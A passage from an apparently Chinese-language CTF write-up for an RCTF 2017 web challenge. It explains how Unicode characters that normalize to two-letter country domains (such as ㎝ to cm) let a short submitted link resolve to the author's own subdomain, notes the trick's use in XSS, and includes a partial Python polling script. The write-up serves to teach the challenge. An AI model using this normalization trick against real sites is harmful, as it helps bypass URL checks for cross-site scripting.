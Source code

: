 事实上，只要提交长度为6位一下，但是却又是属于自己的子域名的话，就能拿到flag了，而后台是浏览器完成的，会点击这里提交的链接。

这里用到的小trick其实很常见，大部分时候，会被我们利用在xss中.

可以看这篇文章[http://www.hackdig.com/?08/hack-12844.htm](http://www.hackdig.com/?08/hack-12844.htm)

```
ǳ : dz     //valid domain ext
 ₨ : rs     //valid domain ext
 № : no     //valid domain ext
 ℠ : sm     //valid domain ext
 ℡ : tel    //valid domain ext
 ™ : tm     //valid domain ext
㎁ : na    // valid domain ext
U+3377 : dm   //valid domain ext
㎃ : ma  // valid domain ext
㎋ : nf  //valid domain ext
㎖ : ml  //valid domain ext
㎙ : fm  //valid domain ext
㎝ : cm  //valid domain ext
㎰ : ps  //valid domain ext
㎳ : ms  //valid domain ext
㎺ : pw  //valid domain ext
㎽ : mw  //valid domain ext
 ㏄ : cc  //valid domain ext
㏅ : cd  //valid domain ext
㏉ : gy  //valid domain ext
 ㏌ : in  //valid domain ext
 ㏗ : ph //valid domain ext
 ㏚ : pr  //valid domain ext
 ㏛ : sr  //valid domain ext
 ﬁ : fi  //valid domain ext
 ﬅ : st //valid domain ext
 ﬆ : st //valid domain ext
```

其中一共有这么多unicode的编码字符串。这里需要一个脚本来跑跑

```

import requests

s = requests.Session()

ll = ['dz', 'rs', 'no', 'sm', 'tel', 'tm', 'na', 'dm', 'ma', 'nf', 'ml', 'fm', 'cm', 'ps', 'ms', 'pw', 'mw', 'cc', 'cd', 'gy', 'in', 'ph', 'pr', 'sr', 'fi', 'ft', 'st']

url = 'http://rcdn.2017.teamrois.cn/dashboard/basic/new'

cookie = {'sessionid':'vk7i4n6qwy6m8c70je9occjyitttto73', 'csrftoken':'rqUhZxckLtvm25DOlhLwaaJgfhfv6sHiYxy5Yd78ODveAWiUbU29KieOujDpHVfg'}


for i in xrange(30):
	r = s.get(url, cookies=cookie)

	index =  r.text.find('Pending</td>')

	id = r.text[index-34:index-26]

	print id
	count = 0
	for i in ll:
		if i in id:
			count+=1

```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/q2pugzy449ug7g2jwrtil2nb/QQ%E5%9B%BE%E7%89%8720170522042700.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/a30ck5pgg6c3s3cp2cszgqje/QQ%E5%9B%BE%E7%89%8720170522042704.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xq1dvd410k4akjrkph9czibf/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/gatcaa6kdfsj5yp83tqr0gum/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hw3a6uxucuisymxec92xlpf0/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/5lj4p4dzhmbwfyro8otybn55/image.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/j2zejln8rr685i5z2kqug0lz/image.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i5msssh1l4rhwy7sba44n7f9/image.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ed5svbcx61a5nuigungwferj/image.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/6k5gwkjg2oiv3v94asck3t4k/image.png
  [11]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/b7mq9ysh8bg8ufcti7j4f9qd/image.png
  [12]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0uu94m6khrhwwabdak1i5pt8/image.png